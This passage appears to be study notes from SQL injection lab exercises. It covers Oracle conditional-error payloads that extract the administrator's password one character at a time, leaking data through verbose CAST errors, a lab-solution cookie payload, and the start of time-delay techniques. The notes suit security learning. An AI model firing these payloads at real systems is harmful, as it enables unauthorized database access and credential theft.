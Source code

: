 - Make sure we only get an error when we intentionally throw it
```
' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)='1' --
```

- Make sure user exists
```
' AND (SELECT CASE WHEN ((SELECT username FROM users WHERE username = 'administrator')='administrator') THEN '1' ELSE TO_CHAR(1/0) END FROM dual)='1'
``` 

- Find the first letter of the password
```
' AND (SELECT CASE WHEN ((SELECT SUBSTR(password, 1, 1) FROM users WHERE username = 'administrator')='a') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a' --
```

## Extracting sensitive data via verbose SQL error messages
Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an id parameter:
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = ```. Expected char
```
This shows the full query that the application constructed using our input. We can see that in this case, we're injecting into a single-quoted string inside a WHERE statement. This makes it easier to construct a valid query containing a malicious payload

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one. 

You can use the CAST() function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement: 
```
CAST((SELECT example_column FROM example_table) AS int)
```
Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following: 
```
ERROR: invalid input syntax for type integer: "Example data"
```
__This type of query may also be useful if a character limit prevents you from triggering conditional responses.__ 

Example of solving the lab
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int) --; session=ddjF2R5IenO8KIGjeqTicUFnEAd0drbD23

## Exploiting blind SQL injection by triggering time delays
If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false
